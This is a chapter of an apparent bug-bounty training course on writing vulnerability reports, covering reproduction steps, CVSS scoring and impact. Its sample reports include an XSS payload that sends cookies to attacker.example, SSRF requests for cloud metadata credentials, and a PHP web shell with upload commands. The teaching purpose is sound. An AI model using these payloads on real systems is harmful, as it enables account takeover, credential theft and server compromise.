






**Level:** Expert · **Track:** Bug Bounty & AppSec · **Read time:** 230 min

This is Chapter 6 of the APIs & CMS notebook, and the capstone of the bug-bounty arc. Chapter 5 ended at the moment a finding becomes "confirmed, reproducible, noted." Everything before this chapter was about *finding* bugs. This chapter is about the uncomfortable truth that finding the bug is only half the job: **the report is the product you actually deliver, and it is what gets paid — not the bug.**

Two hunters can find the identical vulnerability and walk away with wildly different outcomes. One writes three sentences and a screenshot, gets asked four clarifying questions over a week, has the severity knocked down because the triager couldn't see the real impact, and collects a P4 bounty. The other writes a report a triager reproduces in ninety seconds, scores correctly at P1 the first time, and gets paid ten times as much the same day — for the *same underlying bug*. The difference is entirely in the writing. This chapter teaches you to be the second hunter.

We'll cover the full lifecycle of a report from the triager's side (so you write for your reader), the anatomy of every section a great report needs, how to write a reproduction nobody can fail to follow, CVSS scoring taught from scratch so you can score your own findings and defend that score, how to articulate *business* impact rather than technical impact, the craft of a proof-of-concept, and the human skills — severity negotiation, dispute etiquette, duplicate handling, disclosure — that separate a hunter programs love from one they dread. As always, everything assumes authorized testing under a program's scope; the report is also the artifact that documents you stayed inside it.

---

## Part 1: Why the Report Is the Product

A bug in your head is worth nothing. A bug in a badly-written report is worth a fraction of its potential and a week of your life in back-and-forth. A bug in a great report is worth its full value, paid fast, and it earns you the program's trust — which is the currency that gets you into private programs where the competition is thin and the payouts are high.

Internalize the economics. A triager at a bug-bounty platform or a company's security team processes dozens of reports a day, most of them low-quality: duplicates, non-issues, out-of-scope submissions, "vulnerabilities" that are working-as-intended. They are tired, they are skeptical by default, and they make a fast initial judgement about whether your report is worth their time in the first fifteen seconds. Your report is competing for their attention and their belief. Everything in this chapter is about winning those fifteen seconds and then making the rest effortless.

There are three outcomes you're optimizing against, and good writing improves all three:

1. **Time-to-triage.** How fast the triager reproduces and validates. A clear report is validated in minutes; a vague one bounces back and forth for a week or gets closed as "needs more info."
2. **Severity accuracy.** Whether the finding is scored at its true impact. Triagers score conservatively when impact is unclear; if *you* don't make the impact undeniable, it gets rounded down.
3. **Reputation.** Whether the program flags you as a signal hunter (fast-track your future reports, invite you private) or a noise hunter (deprioritize you). Reputation compounds harder than any single bounty.



The thesis of the chapter: **you are not writing a description of a bug; you are writing an argument that a specific, valuable thing is broken, structured so your skeptical reader reaches your conclusion as fast as possible and cannot reasonably disagree with the severity.**

---

## Part 2: The Triage Lifecycle — Write for Your Reader

You can't write a good report until you understand what happens to it. Here's the journey of a submitted report and where each choice you make pays off.



Two states in that diagram are where reports die or lose value: **NeedsInfo** (your reproduction wasn't clear enough, so you lose days and credibility) and **SeverityReview** (your impact wasn't articulated, so it's scored low). A great report is engineered to skip NeedsInfo entirely and to make SeverityReview a formality. Every section we cover next targets one of those two failure modes.

**Who is your reader?** Usually a security-savvy triager who did *not* find the bug, does not know your target as well as you now do, and has fifty other reports waiting. They are not stupid — assume competence — but they have zero context on your specific finding. Your job is to transfer all the context you built during discovery into their head as efficiently as possible. Write the report you'd want to receive if you had to reproduce a stranger's bug at 5pm on a Friday.

---

## Part 3: The Anatomy of a Great Report

Every strong report has the same skeleton. Learn it as a template and fill it every time; consistency itself signals professionalism.

| Section | Purpose | Failure if missing |
|---|---|---|
| **Title** | One line: vuln type + location + impact | Triager can't triage/prioritize the queue |
| **Summary** | 2–4 sentences: what, where, why it matters | No 15-second hook |
| **Severity / CVSS** | Your score + vector string + justification | Scored conservatively without your input |
| **Affected asset(s)** | Exact URL/endpoint/parameter, in scope | Ambiguity about what/where |
| **Steps to reproduce** | Numbered, copy-pasteable, deterministic | NeedsInfo loop |
| **Proof of concept** | The exact request/payload + observed result | "Could not reproduce" |
| **Impact** | Business consequence, worst realistic case | Rounded-down severity |
| **Remediation** | How to fix (shows good faith, speeds resolve) | Slower fix, less goodwill |
| **Supporting material** | Screenshots/video/HTTP logs | Weaker evidence |

### 3.1 The title

The title is metadata the triager uses to sort a queue. Make it self-contained: **vulnerability class + specific location + impact**.

- Weak: `XSS found` · `Security issue` · `IDOR`
- Strong: `Stored XSS in support-ticket subject (POST /api/v2/tickets) executes in agent dashboard — session theft of any support agent`
- Strong: `IDOR in GET /api/v2/invoices/{id} allows any authenticated user to read all customers' invoices (PII + payment metadata)`

A good title states the class, the exact endpoint, and the consequence — a triager can prioritize it against the rest of the queue without opening it.

### 3.2 The summary

Two to four sentences that a busy person can read and immediately grasp the shape and stakes. State what the vulnerability is, where it lives, what an attacker can do with it, and who is affected. This is your fifteen-second hook — write it last, after you know exactly what you're claiming, but place it first.

> **Summary.** The invoice API endpoint `GET /api/v2/invoices/{id}` performs no authorization check tying the requested invoice to the authenticated user. Any logged-in user can iterate the sequential `{id}` and retrieve *any* customer's invoice, exposing full name, billing address, last-4 card, and purchase history. I confirmed cross-account access using two accounts I control; the identifiers are sequential integers, so the entire invoice table is enumerable.

That paragraph alone tells the triager it's an IDOR, where, what data, and that it's mass-enumerable (which is the difference between medium and high severity). Everything after it is proof.

---

## Part 4: Writing a Bulletproof Reproduction

The steps-to-reproduce section is where most bounty value is won or lost, because it's the section that decides whether the triager lands in "Triaged" or "NeedsInfo." The standard to hold yourself to: **a competent stranger with no context can follow your steps and see the bug on the first try, with zero guesswork.**

### 4.1 The rules of a good repro

- **Number every step.** Prose paragraphs hide steps; numbered lists force completeness.
- **Start from a known state.** "Log in as a standard user (Account A)" — say where the reader begins.
- **Include the exact request.** Full method, URL, headers that matter, and body. Not "send a request to the invoice endpoint" — show it.
- **Make it copy-pasteable.** Provide a `curl` command or a Burp request the reader can paste and run, with placeholders clearly marked.
- **State the expected vs. actual result.** "Expected: 403 Forbidden. Actual: 200 OK with Account B's invoice." The *diff* is the bug.
- **Remove every unnecessary step.** If a step isn't required to trigger the bug, delete it. Minimal repro = credible repro.
- **Be deterministic.** If the bug is a race condition or timing-dependent, say so explicitly and give the reader the odds and the tool (e.g. "send these 30 requests in parallel; ~1 in 5 attempts succeeds — Turbo Intruder script attached").

### 4.2 A worked reproduction

Here's a complete, well-formed reproduction for the IDOR from Part 3:

> **Steps to reproduce**
>
> 1. Register or log in as a standard user. I used two accounts I control: **Account A** (`attacker@example.com`, user id 5012) and **Account B** (`victim@example.com`, user id 5013).
> 2. As **Account B**, create an invoice via the normal purchase flow and note its id from the URL: `/invoices/8841`.
> 3. Log in as **Account A** and capture your session cookie (or bearer token).
> 4. As **Account A**, request **Account B's** invoice directly:
>
> ```bash
> curl -s 'https://api.acme.com/api/v2/invoices/8841' \
>   -H 'Authorization: Bearer <ACCOUNT_A_TOKEN>' | jq .
> ```
>
> 5. **Expected:** `403 Forbidden` (invoice 8841 belongs to Account B, not A).
>    **Actual:** `200 OK` returning Account B's full invoice:
>
> ```json
> {
>   "id": 8841,
>   "customer": "Victim User",
>   "billing_address": "12 Example St, London",
>   "card_last4": "4242",
>   "items": [{"sku": "PRO-YEARLY", "amount": 199.00}],
>   "total": 199.00
> }
> ```
>
> 6. Because `id` is a sequential integer, decrementing/incrementing it enumerates all invoices. The following demonstrates enumeration across a small range (I limited this to 5 IDs to avoid pulling data at scale):
>
> ```bash
> for id in 8837 8838 8839 8840 8841; do
>   echo "== $id =="
>   curl -s "https://api.acme.com/api/v2/invoices/$id" \
>     -H 'Authorization: Bearer <ACCOUNT_A_TOKEN>' | jq '{id, customer, card_last4}'
> done
> ```

Notice several deliberate choices: two accounts the hunter *controls* (never test IDOR against a real user's data), the explicit expected-vs-actual, the copy-pasteable curl, and — critically — the note that enumeration was **deliberately limited to 5 IDs**. That last point is both ethics and credibility: it proves mass-enumerability without actually exfiltrating a database of real customers' PII, which would itself be a violation.

### 4.3 The minimality principle

A reproduction with twelve steps, three of which are irrelevant, invites doubt — the triager wonders which steps actually matter and may conclude the bug is conditional or fragile. Ruthlessly minimize. If you can trigger the bug in four steps, never submit six. The most persuasive PoC is the shortest one that still proves impact.

---

## Part 5: CVSS 3.1 From Scratch — Scoring Your Own Findings

Most programs score severity with **CVSS 3.1** (Common Vulnerability Scoring System). If you can produce a correct CVSS vector and justify it, you control the anchor point of the severity discussion. If you leave the field blank, the triager scores it — conservatively. Learn CVSS well enough to score your own bugs and defend the score.

### 5.1 The base metrics

CVSS 3.1's Base score is built from eight metrics. You need to understand each because your report's impact section is really an argument about these values.

| Metric | Values | What it asks |
|---|---|---|
| **Attack Vector (AV)** | Network / Adjacent / Local / Physical | How "remote" is the attacker? Internet-reachable = Network (highest) |
| **Attack Complexity (AC)** | Low / High | Are there conditions beyond the attacker's control? A race that rarely wins = High |
| **Privileges Required (PR)** | None / Low / High | What access must the attacker already have? Unauth = None (highest) |
| **User Interaction (UI)** | None / Required | Must a victim do something (click a link)? None = higher |
| **Scope (S)** | Unchanged / Changed | Does the bug affect resources beyond the vulnerable component's authority? SSRF pivoting into internal infra = Changed |
| **Confidentiality (C)** | None / Low / High | Data disclosure impact |
| **Integrity (I)** | None / Low / High | Data modification impact |
| **Availability (A)** | None / Low / High | Uptime / DoS impact |

The **Scope** metric is the one hunters most often get wrong and it swings the score hard. Scope is *Changed* when the vulnerable component can affect resources it shouldn't have authority over — the classic example is SSRF that lets you reach the cloud metadata service or internal hosts (the web app's "scope" now extends into infrastructure it was never meant to touch). Getting Scope:Changed right is often the difference between a 7.x and a 9.x.

### 5.2 A worked scoring — the invoice IDOR

Let's score the IDOR from earlier:

- **AV: Network** — the API is internet-reachable. 
- **AC: Low** — no special conditions; just increment an integer.
- **PR: Low** — you must be an authenticated user (any account), so privileges are Low, not None.
- **UI: None** — no victim action required.
- **S: Unchanged** — the impact stays within the app's data; it doesn't jump to other components.
- **C: High** — full PII + payment metadata for *all* customers is readable.
- **I: None** — read-only; you can't modify invoices.
- **A: None** — no availability impact.

Vector string:

```
CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N   =>  Base 6.5 (Medium)
```

Now watch what one fact does to the score. If the same endpoint were reachable **without authentication** (PR:None), the vector becomes:

```
CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N   =>  Base 7.5 (High)
```

That single metric — whether the attacker needs an account — moves the finding from Medium to High. This is exactly why the *details* of your reproduction matter: whether you can reach the bug unauthenticated is a fact you establish in your repro that directly drives the number.



### 5.3 Don't game it — anchor it

The goal of scoring your own finding is not to inflate it; triagers score CVSS too and will correct an obviously dishonest vector, which damages your reputation. The goal is to *anchor* the discussion at an accurate, defensible number and to show your work so the triager can agree quickly. An accurate self-score that you can defend line-by-line is far more valuable than an inflated one you'll lose in dispute. Include the vector string, the resulting score, and a one-line justification for the two or three metrics that matter most for this bug.

### 5.4 CVSS is a floor, not the whole story

CVSS captures *technical* severity but misses *business context* — and business context is where you argue a finding up. A CVSS 6.5 IDOR on a table of internal test data is genuinely a 6.5. The identical CVSS 6.5 IDOR on the invoice table of a payments company is a business catastrophe (regulatory exposure, mass PII breach, customer trust). Many programs pay on *business impact*, not raw CVSS, which is why the Impact section (next) is where real payout is won.

---

## Part 6: Articulating Business Impact

Technical impact is "an attacker can read arbitrary invoices." Business impact is "an attacker can enumerate and exfiltrate the full name, billing address, card metadata, and purchase history of every paying customer, which is a reportable data breach under GDPR, exposes the company to regulatory fines and mandatory customer notification, and hands competitors the entire customer list." The second version is what moves a bounty from the middle of the reward table to the top.

### 6.1 Translate technical → business

For every finding, ask and answer these questions in the impact section:

- **What can the attacker actually achieve?** State the worst *realistic* outcome, not a hypothetical maximum. "Full customer PII exfiltration at scale," not "could maybe lead to problems."
- **Who is affected, and how many?** One user, or all of them? "All ~X paying customers" is far more severe than "one user's data."
- **What's the data or action, in business terms?** Not "the `card_last4` field" but "payment card metadata," not "the `role` column" but "the ability to grant oneself admin."
- **What's the regulatory / financial / trust consequence?** PII breach → GDPR/CCPA notification obligations. Payment data → PCI implications. Account takeover of admins → total compromise.
- **How hard is it for a real attacker?** If it's trivial and unauthenticated, say so — ease of exploitation *is* impact.

### 6.2 The worst-realistic-case discipline

Overclaiming ("this could lead to full RCE and nuclear launch") destroys credibility; underclaiming leaves money on the table. Aim for the **worst outcome a competent attacker could realistically achieve from this exact primitive**, and if it chains into something bigger, *show the chain* (this is where Chapter 4's chaining skill pays: a self-XSS is low impact alone, but "self-XSS + login CSRF → stored XSS firing against admins → admin ATO" is a critical, and your impact section should walk that chain). Don't assert the chain — demonstrate it, or clearly mark the steps you demonstrated vs. the ones you're reasoning about.

### 6.3 Impact for the IDOR, written well

> **Impact.** Any user who can register an account (registration is open and free) can read every customer's invoice by iterating a sequential integer id. Because ids are sequential and the endpoint returns full billing PII (name, address, card last-4) and purchase history, a single attacker can enumerate and exfiltrate the entire customer base in hours. This constitutes a mass disclosure of personal and payment-adjacent data: it is a reportable personal-data breach under GDPR/CCPA (triggering notification obligations and potential fines), exposes the company to PCI scrutiny for the card metadata, and would hand a competitor the complete paying-customer list. The only precondition is a free account; no victim interaction is required.

That paragraph doesn't inflate — it takes the true facts and states them in the vocabulary of the people who decide the bounty: risk, compliance, customers, money.

---

## Part 7: The Craft of a Proof of Concept

The PoC is the evidence that converts your claim into fact. Different bug classes call for different PoCs; the constant is that a PoC must be **undeniable, safe, and minimal**.

### 7.1 Choosing the PoC form

| Bug class | Best PoC form | Notes |
|---|---|---|
| IDOR / authz | Two-account curl showing cross-access | Use accounts you own; limit enumeration |
| Reflected/stored XSS | Screenshot/video of `alert(document.domain)` firing + the request | `document.domain` proves *where* it fires |
| SSRF | Request + response showing internal/metadata content, or an out-of-band hit (Burp Collaborator) | OOB proves blind SSRF |
| SQLi | The payload + the differential/extracted proof (e.g. version string) | Extract a harmless proof (`@@version`), not customer data |
| RCE | A single benign command output (`id`, `whoami`, hostname) | Never run destructive or data-touching commands |
| CSRF | A minimal auto-submitting HTML PoC + video of state change | Host it or inline it |
| Open redirect | The exact URL and the resulting 30x/Location | Show it redirects off-domain |

### 7.2 Benign proof, not real damage

The cardinal rule of PoC craft: **prove impact without causing it.** For RCE, run `id` once, not `rm` or a reverse shell that persists. For SQLi, extract `@@version` or `current_user`, not the users table. For IDOR, read a handful of your own or clearly-test records, not the whole database. For SSRF, hit your own Collaborator or read a benign metadata field, don't pivot into production internals. This isn't just ethics — a PoC that stops at proof is *more* persuasive because the triager can validate it without fear, and it documents that you stayed within responsible bounds. Programs remember hunters who demonstrated a critical bug surgically and hunters who exfiltrated a database to "prove" it; only one of those gets invited back.

### 7.3 curl and video

A `curl` PoC is the gold standard for API bugs because the triager can paste and run it — no ambiguity, no "it works in my browser." Include the full command with headers, mark secrets/tokens as placeholders, and show the response. For anything visual or stateful (XSS firing, a CSRF changing account state, a multi-step flow), a **short screen recording** (30–90 seconds, narrated or captioned) removes all doubt. Video is especially powerful for bugs that are hard to convey in text — a race condition, a UI-driven privilege escalation, an XSS payload rendering. Attach both when you can: curl for reproducibility, video for the "I can see it" gut-check.

### 7.4 Redact and be careful with real data

If your PoC output happens to include real user data (sometimes unavoidable in a disclosure bug), **redact it** in the report — blur the screenshot, truncate the JSON — and say you've done so. Never paste a live victim's full PII into a report. Demonstrate the *class* of data exposed ("returns `card_last4`, `billing_address`") using your own test accounts wherever possible.

---

## Part 8: A Before-and-After Report Rewrite

Nothing teaches report quality like seeing the same bug reported badly and well.

### 8.1 The bad report

> **Title:** IDOR
>
> **Description:** I found an IDOR on the invoice page. You can see other people's invoices by changing the id. This is a serious issue please fix. I think it's high severity.

This report will bounce to NeedsInfo immediately. There's no exact endpoint, no reproduction, no proof, no scoping of impact, no evidence of how many records, and an asserted severity with no justification. The triager has to do all the work — find the endpoint, build two accounts, test it — and will resent it. Best case it's triaged slowly at medium; worst case closed as "need more info" and forgotten.

### 8.2 The good report

Same bug, rewritten:

> **Title:** IDOR in `GET /api/v2/invoices/{id}` — any authenticated user can read all customers' invoices (full PII + card metadata), mass-enumerable via sequential id
>
> **Summary:** The invoice endpoint performs no ownership check on `{id}`. Any logged-in user can retrieve any customer's invoice by iterating a sequential integer, exposing name, billing address, card last-4, and purchase history for the entire customer base. Confirmed cross-account with two accounts I control.
>
> **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` — Base 6.5 (Medium technical), but business impact is High given mass PII/payment-data disclosure and GDPR/PCI exposure.
>
> **Affected asset:** `https://api.acme.com/api/v2/invoices/{id}` (in scope: `*.acme.com`)
>
> **Steps to reproduce:** *(the numbered curl-based repro from Part 4)*
>
> **Impact:** *(the business-impact paragraph from Part 6)*
>
> **Remediation:** Enforce an authorization check that the requested invoice's `owner_id` matches the authenticated principal (object-level authorization). Consider non-sequential, unguessable identifiers (UUIDs) as defense-in-depth, but the authoritative fix is the ownership check — UUIDs alone are not an access-control substitute.
>
> **Supporting material:** curl transcripts (attached), 45-second screen recording of cross-account retrieval (attached), enumeration limited to 5 ids to avoid data exposure.

Same vulnerability. One of these gets closed; the other gets triaged in two minutes, scored accurately, and paid at the top of its band — and its author gets remembered as someone worth fast-tracking.

---

## Part 9: Worked Mini-Reports Across Bug Classes

The IDOR was our running example, but different bug classes have different reporting rhythms — the reproduction shape, the PoC form, and the impact argument all shift. Here are three more, each written to the same standard, so you can see the pattern generalize.

### 9.1 Reflected XSS

> **Title:** Reflected XSS in `q` parameter of `GET /search` — arbitrary JS in victim's session via crafted link (no auth required)
>
> **Summary:** The `search` page reflects the `q` parameter into the HTML response without encoding. A crafted link executes attacker JavaScript in the browser of any user who clicks it, in the `app.acme.com` origin — enabling session-token theft, actions-as-victim, and credential capture. No authentication is required to deliver the payload.
>
> **Severity:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:L/A:N` — Base 6.1 (Medium). UI:Required (victim must click) is what keeps reflected XSS out of the critical band; the impact within the origin is high.
>
> **Steps to reproduce**
>
> 1. In a logged-in session, open the following URL:
>
> ```
> https://app.acme.com/search?q=%3Cscript%3Ealert(document.domain)%3C%2Fscript%3E
> ```
>
> 2. **Expected:** the search term is displayed as inert text.
>    **Actual:** an `alert` box fires showing `app.acme.com`, proving script execution in the application origin. The raw response contains the unencoded injection:
>
> ```html
> <h2>Results for: <script>alert(document.domain)</script></h2>
> ```
>
> 3. A weaponized payload demonstrating session theft (not detonated against real users) would exfiltrate the session cookie:
>
> ```
> ?q=<script>new Image().src='https://attacker.example/c?'+document.cookie</script>
> ```
>
> **Impact:** Any user who clicks an attacker-crafted link executes attacker-controlled JavaScript in the `app.acme.com` origin. Within that origin an attacker can read non-`HttpOnly` cookies and tokens, make authenticated requests as the victim (change email, initiate transfers), and render a convincing in-app phishing prompt to harvest the password. Delivered via email/DM at scale, this is a mass account-compromise primitive. `document.domain` in the PoC proves the execution context is the real application, not a sandbox.
>
> **Remediation:** Contextually output-encode `q` on reflection (HTML-entity encoding for HTML context). Deploy a restrictive `Content-Security-Policy` as defense-in-depth. Do not rely on input filtering/blocklists — the authoritative fix is output encoding in the correct context.
>
> **Supporting material:** 30-second video of the `alert` firing; raw HTTP request/response showing the unencoded reflection.

Note the discipline: the *proof* payload is `alert(document.domain)` (harmless, and `document.domain` proves the origin), while the *weaponized* payload is shown as text to demonstrate impact **without** detonating cookie theft against real users. That distinction — prove with `alert`, describe the weaponization — is exactly how you convey a critical-capability bug responsibly.

### 9.2 SSRF reaching cloud metadata

> **Title:** SSRF in `POST /api/v2/import` `url` field reaches internal network and AWS metadata — retrieves IAM role credentials (Scope: Changed)
>
> **Summary:** The import endpoint fetches a user-supplied `url` server-side with no allowlist or internal-range filtering. An attacker can point it at internal services and at the cloud metadata endpoint `169.254.169.254`, retrieving the instance's IAM role credentials — a pivot from web-app access into the cloud account.
>
> **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` — Base 9.9 (Critical). **Scope: Changed** because the vulnerable web component reaches resources (cloud IAM) outside its authority; that single metric, plus credential theft, drives the critical score.
>
> **Steps to reproduce**
>
> 1. Authenticate as any user. Submit an import pointing at the metadata service:
>
> ```bash
> curl -s 'https://api.acme.com/api/v2/import' \
>   -H 'Authorization: Bearer <TOKEN>' \
>   -H 'Content-Type: application/json' \
>   -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/"}'
> ```
>
> 2. **Actual:** the response body includes the IAM role name (e.g. `acme-app-instance-role`). Fetching one level deeper returns temporary credentials:
>
> ```bash
> curl -s 'https://api.acme.com/api/v2/import' \
>   -H 'Authorization: Bearer <TOKEN>' -H 'Content-Type: application/json' \
>   -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/acme-app-instance-role"}'
> ```
>
> ```json
> { "AccessKeyId":"ASIA...REDACTED", "SecretAccessKey":"REDACTED",
>   "Token":"REDACTED", "Expiration":"2027-01-16T12:00:00Z" }
> ```
>
> 3. I have **redacted the live credentials** above and did **not** use them against the AWS account — retrieving them is sufficient proof of impact.
>
> **Impact:** The endpoint grants server-side request forgery into the internal network and, critically, to the cloud metadata service, yielding the instance's IAM role credentials. Depending on that role's policy, an attacker could read S3 buckets, enumerate infrastructure, or pivot laterally within the AWS account — i.e. a foothold that escalates from application access to cloud-account compromise. This is the classic SSRF-to-cloud-takeover pattern behind several major breaches.
>
> **Remediation:** Enforce an allowlist of permitted destinations for server-side fetches; block RFC1918 ranges and `169.254.169.254`; require IMDSv2 (session-token-based metadata) which resists basic SSRF; resolve-and-pin hostnames to prevent DNS-rebinding. Filtering on the raw URL string alone is insufficient (bypassable via redirects, alternate IP encodings, DNS rebinding).

The SSRF report shows why **Scope:Changed** and credential-retrieval are worth spelling out: they are precisely the facts that move CVSS from ~7 to ~9.9, and the report makes the triager's scoring trivial by stating them outright. It also models the **redact-and-don't-use** rule for the most sensitive possible PoC output.

### 9.3 Authenticated RCE

> **Title:** Authenticated RCE via unrestricted file upload in `POST /api/v2/avatar` — arbitrary command execution as web user
>
> **Summary:** The avatar upload accepts `.phtml` files and stores them under the web root, allowing an authenticated user to upload and execute server-side code, yielding command execution in the application's OS context.
>
> **Severity:** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H` — Base 8.8 (High). If the process holds broader credentials, argue Scope:Changed and a critical score with evidence.
>
> **Steps to reproduce**
>
> 1. Authenticate. Upload a minimal PHP web shell as an avatar:
>
> ```bash
> printf '<?php echo shell_exec($_GET["c"]); ?>' > shell.phtml
> curl -s 'https://app.acme.com/api/v2/avatar' -H 'Authorization: Bearer <TOKEN>' \
>   -F 'file=@shell.phtml;type=image/png'
> # => {"path":"/uploads/avatars/5012/shell.phtml"}
> ```
>
> 2. Execute one benign command to prove RCE — nothing destructive:
>
> ```bash
> curl -s 'https://app.acme.com/uploads/avatars/5012/shell.phtml?c=id'
> # => uid=33(www-data) gid=33(www-data) groups=33(www-data)
> ```
>
> 3. I ran only `id` to demonstrate execution and did not access data, escalate, or persist.
>
> **Impact:** An authenticated attacker achieves arbitrary command execution as the `www-data` user on the application server. From there an attacker can read application secrets and source, access connected data stores, and attempt privilege escalation or lateral movement — full compromise of the host and everything it can reach. Because registration is open, "authenticated" is a trivial precondition.
>
> **Remediation:** Validate uploads by content, not extension; store uploads outside the web root or on a non-executing object store; serve them with `Content-Disposition: attachment` and a non-executable content type; randomize stored filenames; and ensure the upload directory has no execute handler mapping. Extension blocklists (`.php`) are bypassable (`.phtml`, `.php5`, case tricks) — the authoritative fix is no code execution from the upload path.

Across all three, notice the invariant: **prove the maximum with the minimum** — one `alert`, redacted credentials, a single `id` — and let the impact paragraph carry the argument for what a real attacker could do next. That is the entire craft of a persuasive, responsible PoC.

---

## Part 10: CVSS Temporal and Environmental — and Program Severity Tables

The Base score is only the first of CVSS 3.1's three metric groups. You rarely submit Temporal/Environmental vectors, but understanding them sharpens your severity arguments.

- **Temporal metrics** adjust for the *current state of the threat*: Exploit Code Maturity (is there a working public exploit?), Remediation Level (is there a fix yet?), and Report Confidence (how sure are we the bug is real?). A bug with a public Metasploit module is more urgent than a theoretical one; that's Temporal, and it's an argument you can make ("a public exploit exists for this exact CVE") when urging faster remediation.
- **Environmental metrics** re-score for *this specific organization*: security requirements (how much does this org value C/I/A of the affected asset?) and modified base metrics. This is where **business context** formally lives in CVSS — a data-disclosure bug on a payments company's customer table has a higher Environmental Confidentiality Requirement than the same bug on a marketing microsite. When you argue business impact (Part 6), you are, in CVSS terms, arguing the Environmental metrics.

